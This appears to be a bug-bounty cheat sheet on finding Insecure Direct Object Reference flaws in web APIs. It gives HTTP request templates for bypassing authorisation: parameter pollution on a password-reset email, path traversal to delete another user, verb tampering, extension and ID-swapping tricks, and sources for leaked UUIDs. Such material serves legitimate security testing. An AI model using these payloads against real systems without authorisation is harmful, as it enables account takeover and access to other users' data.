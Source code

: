 # Insecure direct Object Reference (IDOR)

In order to find IDOR, you should use appropriate recon and some techniques.

## Methodology

- [Application Recon] - Fuzz the endpoints which return information
- [Application Recon] - Conduct application and search in JavaScript files for API endpoints and parameters
- Conduct tests on any object which returns information (easy to test, hard to discover)
- Conduct tests on state-changing functionalities, it’s more tricky (easy to test, easy to discover)
- Some tips:
    - In some web application you face **UUID** or something similar, it’s not IDOR unless you can leak others users **UUIDs**
    - There may be endpoints to translate emails or other properties into **UUIDs**, check for those
    - If you face a value which seem to be random, try to generate more values to fine a pattern
    - Leverage **Mass Assignment to discover** IDOR in state-changing functionalities
    - Use parameter pollution to discover IDOR or bypass the forbidden action
    - Decode the values which seem to be base64

## How to test

- Endpoint fuzzing

```html
/endpoints/users/me
/endpoints/**[FUZZ]**/**[FUZZ]**
```

- Add parameters to the endpoints which return the information

```html
GET /api/v1/getuser
[...]

**use:**

GET /api/v1/getuser?**id=1337 -> where you find this? from js files! and you fuzzing wordlist kite runner**
[...]
```

- Use parameters pollution in state-changing requests (even non state-changing)

```html
POST /api/forget_password
[...]
email=victim_email**&email=hacker_email

use:**

POST /api/forget_passwrod
[...]
{"email":"victim_email", **"email":"hacker_email"}**

GET /api/users/user_id=ligimet**&user_id=victim** 

GET /api/users/user_id=victim**&user_id=ligimet**
```

- Use extensions to bypass forbidden actions

```html
GET /v2/GetData/1234 --> 403 forbidden 
[...]

GET /v2/GetData/1234**.json** --> 200 ok
[...]
```

- Test on outdated API version (or even upcoming version)

```html
POST /v2/GetData
[...]
id=1234

**use:**

POST /**v1**/GetData
[...]
id=1234
```

- Manipulate JSON packets

```html
POST /api/get_profile
[]
{"id":"111"}

**use:**

POST /api/get_profile
[]
{"id":"[1111]"}

POST /api/get_profile
[...]
{"user_id":**{"user_id":"111"}}**
```

- Finding UUID
    - Wayback machine
    - Alien vault OTX
    - URL Scan
    - Common Crwal
    - Google Search
    - Github Search
    - Referrer header
    - Js files
- Try to swap uuid with number

```html
GET /file?id=ef0930894-e98dj930-uba938

use:

GET /file**?id=1**
```

- Many endpoints take complicate object IDs, like **UUIDs** or so, try **numeric integer IDs** on all
- Abusing the revers proxy

```html
POST /users/delete/VICTIM_ID --> 403 forbidden

**Use:**

POST /users/delete/**MY_ID/../VICTIM_ID** --> 200 OK
POST /users/delete/**MY_ID/%2f%2e%2e%2eVICTIM_ID** --> 200 OK
```

- use verb tampering to bypass forbidden

```html
POST /users/delete/VICTIM_ID --> 403 forbidden

use:

**DELETE** /users/delete/VICTIM_ID --> 200 ok
```

- Try to discover hidden parameter even-though there is an ID in the request (guess, extract or fuzz parameters)

```html
GET /v2/profile/1000 --> 200 OK
GET /v2/profile/1001 --> 403 forbidden

**use:**

GET /v2/profile/1000?**[FUZZ]=**1001
GET /v2/profile/1000?**user_id=1001** --> 200 ok

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

POST /v2/profile
[...]
name=ali&email=ali@gmail.com

**use:**

POST /v2/profile?**user_id=1001**
[...]
name=ali&email=ali@gmail.com

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

POST /v2/profile
[...]
user_id=1000

use:

POST /v2/profile?**user_id=1001**
[...]
user_id=1000
```

- Use Special characters

```
api/user/01* 
api/user/*
api/user/%
api/user/_
api/user/.
```

- Checking Referrer

```
GET /user/02 
Referrer: example.com/users/**01**          -> 403 forbidden

GET /user/02 
Referrer: example.com/users/02          -> 200 OK

```